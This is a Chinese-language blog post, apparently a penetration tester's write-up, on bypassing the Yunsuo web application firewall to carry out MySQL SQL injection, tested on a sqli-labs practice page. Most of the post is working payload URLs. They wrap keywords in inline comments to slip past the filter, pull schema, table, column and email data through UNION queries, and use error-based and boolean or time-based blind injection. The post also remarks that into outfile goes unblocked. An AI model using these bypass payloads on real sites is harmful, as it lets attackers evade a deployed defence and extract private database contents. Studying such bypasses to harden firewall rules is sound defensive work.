 ```yaml
---
title: "Bypass MySQL Yunsuo"
date: 2019-10-12T22:46:46+08:00
lastmod: 2019-10-12T22:46:46+08:00
draft: true
tags: []
categories: ['bypass']
comment: true
---
```


开锁

<!--more-->

继上文《Bypass MySQL Safedog》。

# 判断注入

智障云锁不拦截and or

```
http://172.16.1.157/sql/Less-1/?id=1' and 1=1 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' and 1=2 -- +	不正常
```

# 判断字段数

```
http://172.16.1.157/sql/Less-1/?id=1' order by  -- +	拦截
http://172.16.1.157/sql/Less-1/?id=1' order  3 -- +		不拦截
http://172.16.1.157/sql/Less-1/?id=1' by 3 -- +			不拦截
```

那就打乱order by

```
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000*/ by 3 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000*/ by 4 -- +	不正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000by*/  3 -- +	正常
http://172.16.1.157/sql/Less-1/?id=1' order/*!50000by*/  4 -- +	不正常
```

# 联合查询

对union select的拦截比较狠，用all/distinct/distinctrow加内联注释打乱

```
http://172.16.1.157/sql/Less-1/?id=-1' union select 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all select 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!select 1,2,3 -- +	不拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!select*/ 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union all /*!00000select*/ 1,2,3 -- +	拦截
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,3 -- +	不拦截
```

得到结论为在关键字两边包裹内联，如：`/*!00000union*/`

```
http://172.16.1.157/sql/Less-1/?id=-1' /*!00000union*/ /*!00000all*/ /*!00000select*/ 1,2,3 -- +
http://172.16.1.157/sql/Less-1/?id=-1'  union/*!50000distinct /*!50000select*/1,2,database() -- '
http://172.16.1.157/sql/Less-1/?id=-1'  /*!00000union/*!00000 distinct*/ select 1,2,database/**/() -- +
http://172.16.1.157/sql/Less-1/?id=-1'  /*!00000union/*!00000 distinct select*/ 1,2,database/**/() -- +
http://172.16.1.157/sql/Less-1/?id=-1' /*!00000union *//*!00000 /*!distinct select*/ 1,2,database/**/() -- +
```

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(select table_name) -- +	不拦截
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(select table_name from) -- +	拦截
```

使用内联包裹关键字就可以了

库名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ schema_name /*!00000from*/ information_schema.schemata  limit 0,1) -- +
```

表名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ table_name /*!00000from*/ information_schema.tables where table_schema=database() limit 0,1) -- +
```

列名

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ column_name /*!00000from*/ information_schema.columns where table_name='emails' and table_schema=database() limit 0,1) -- +
```

查数据

```
http://172.16.1.157/sql/Less-1/?id=-1' union /*!00000all*/ /*!00000select*/ 1,2,(/*!00000select*/ email_id /*!00000from*/ emails  limit 0,1) -- +
```

# 报错注入

```
http://172.16.1.157/sql/Less-1/?id=-1' and /*!00000updatexml*/(1,concat(0x7e,user(),0x7e),1) -- +
```

# 盲注

我手工测得时候发现云锁对盲注友好的很，对于and之后的比较运算符以及字符串截取函数几乎上不拦截，甚至是不用绕。

## 布尔盲注

判断长度

```
http://172.16.1.157/sql/Less-1/?id=1' and length(database())=8 -- +
```

逐位

```
http://172.16.1.157/sql/Less-1/?id=1' and substr(database(),1,1)='s' -- +	http://172.16.1.157/sql/Less-1/?id=1' and left(database(),1)='s' -- +
```

查表

```
http://172.16.1.157/sql/Less-1/?id=1' and substr((/*!00000select*/ table_name /*!00000from*/ information_schema.tables limit 0,1),1,1)='C' -- +
```

可以发现跟上面联合查询一样的，只需要给关键字加内联就行了，布尔盲注就到这。

## 时间盲注

写到这发现if()和sleep()都不用绕。。。

```
http://172.16.1.157/sql/Less-1/?id=1' and if((user()='root@localhost'),sleep(5),1) -- +
```

用到select的时候就用内联就完事了。

# 总结

云锁相比安全狗来讲规则弱的太多了，尤其是对于盲注的拦截，简直不要太友好，对于into outfile也不拦截，算是给安全从业人员留了后路。

ps：有趣的是云锁官网用的是奇安信+云锁双waf

![20191013002322](https://y4er.com/img/uploads/20191013002322.png)

![20191013002442](https://y4er.com/img/uploads/20191013002442.png)




**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**